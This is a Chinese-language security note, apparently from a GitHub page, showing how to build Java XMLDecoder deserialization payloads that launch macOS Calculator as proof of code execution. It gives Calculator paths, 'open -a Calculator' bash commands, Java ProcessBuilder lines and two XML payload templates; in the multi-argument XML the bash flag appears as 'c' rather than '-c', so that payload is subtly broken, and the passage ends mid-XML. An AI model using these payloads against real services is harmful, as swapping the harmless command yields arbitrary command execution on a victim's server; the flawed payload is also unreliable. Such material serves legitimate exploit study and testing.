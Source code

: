 #### MacOS

二进制程序的执行位置

```
/Applications/Calculator.app/Contents/MacOS/Calculator

open /Applications/Calculator.app
```

不同版本位置可能不同

```
/System/Applications/Calculator.app/Contents/MacOS/Calculator

open /System/Applications/Calculator.app
```

使用 bash 调用 open -a Calculator 命令

```
bash -c open -a Calculator

/bin/bash -c open -a Calculator
```

## 反序列化Payload构造

### XML 单参数 Payload 构造

``` java
new java.lang.ProcessBuilder("/Applications/Calculator.app/Contents/MacOS/Calculator").start()
```

```xml
<?xml version="1.0" encoding="UTF-8"?>
<java version="1.8.0_261" class="java.beans.XMLDecoder">
  <object class="java.lang.ProcessBuilder">
    <array class="java.lang.String" length="1">
      <void index="0">
        <string>/Applications/Calculator.app/Contents/MacOS/Calculator</string>
      </void>
    </array>
    <void method="start"></void>
  </object>
</java>
```

### XML 多参数 Payload 构造

```java
new ProcessBuilder("/bin/bash", "-c", "open -a Calculator").start();
```

```xml
<?xml version="1.0" encoding="UTF-8"?>
<java version="1.8.0_261" class="java.beans.XMLDecoder">
  <object class="java.lang.ProcessBuilder">
    <array class="java.lang.String" length="3">
      <void index="0">
        <string>/bin/bash</string>
      </void>
      <void index="1">
        <string>c</string>
      </void>
      <void index="2">
        <string>open -a Calculator</string>
      </void>
    </array>
```